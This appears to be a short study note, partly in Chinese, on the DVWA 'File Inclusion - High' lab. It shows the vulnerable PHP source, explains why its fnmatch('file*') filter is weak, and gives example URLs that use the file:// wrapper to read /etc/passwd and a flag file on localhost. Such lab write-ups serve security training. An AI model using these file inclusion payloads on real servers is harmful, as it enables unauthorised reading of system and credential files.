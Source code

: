 # File Inclusion - High

## View Source

```PHP
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

- [`fnmatch()`](https://www.php.net/manual/zh/function.fnmatch.php)
    - 檢查傳入的 *filename* 是否符合 *shell wildcard pattern*

## Code Review

- 只要不是 *file* 開頭或是不是 *include.php* 就噴錯

## Answer

- 用 *Low.md* 提到的偽協議來存取檔案系統

### Example

```
http://127.0.0.1/vulnerabilities/fi/?page=file:///etc/passwd
http://127.0.0.1/vulnerabilities/fi/?page=file:///var/www/html/hackable/flags/fi.php
```